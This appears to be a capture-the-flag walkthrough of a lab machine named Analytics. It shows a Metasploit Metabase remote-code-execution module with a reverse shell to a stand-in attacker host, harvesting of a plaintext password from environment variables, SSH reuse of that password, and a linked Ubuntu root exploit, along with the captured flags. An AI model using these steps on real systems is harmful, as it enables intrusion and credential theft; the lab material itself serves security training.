


# Analytics - Walkthrough


## TARGET : 10.10.11.233
## ATTACKER : OPENVPN IP

## Scanning

`nmap -A -p- -T4 10.10.11.233`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website


There is a login page, but domain is different. Let's add `data.analytical.htb` to our `/etc/hosts` file.



## Exploitation

Let's try to see if there is any vulnerability in `Metabase`



```
msf6 exploit(linux/http/metabase_setup_token_rce) > show options

Module options (exploit/linux/http/metabase_setup_token_rce):

   Name       Current Setting              Required  Description
   ----       ---------------              --------  -----------
   Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     http://data.analytical.htb/  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      3000                         yes       The target port (TCP)
   SSL        false                        no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                            yes       The URI of the Metabase Application
   VHOST                                   no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  ATTACKER     yes       The listen address (an interface may be specified)
   LPORT  9001             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.
```

We just need to set `RHOSTS` and `LHOST` and run the exploit.

```
msf6 exploit(linux/http/metabase_setup_token_rce) > run

[*] Started reverse TCP handler on ATTACKER:9001 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (ATTACKER:9001 -> 10.10.11.233:37704) at 2023-12-08 13:43:09 +0100

id    
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=047063332d83
FC_LANG=en-US
SHLVL=5
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=/bin/sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db
```

Currently we are logged in as `metabase` user

## Privilege Escalation

We can see that there is a user `metalytics` and we have the password `An4lytics_ds20223#`. Let's try to login with `ssh`.

`ssh metalytics@data.analytical.htb`

```
metalytics@analytics:~$ ls
user.txt
metalytics@analytics:~$ cat user.txt 
2e32f79a3d48267f4c75f8f07c1d4ad5
metalytics@analytics:~$ 
```
There is a vulnerable version of ubuntu installed on the machine and this [Exploit](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh) can be used to get root access.

```
metalytics@analytics:~$ nano exploit.sh
metalytics@analytics:~$ chmod +x exploit.sh 
metalytics@analytics:~$ ./exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:~# whoami
root
root@analytics:~# cat /root/root.txt
0ec5e65e18ffbd0f5a6acf805e79e1b1
```

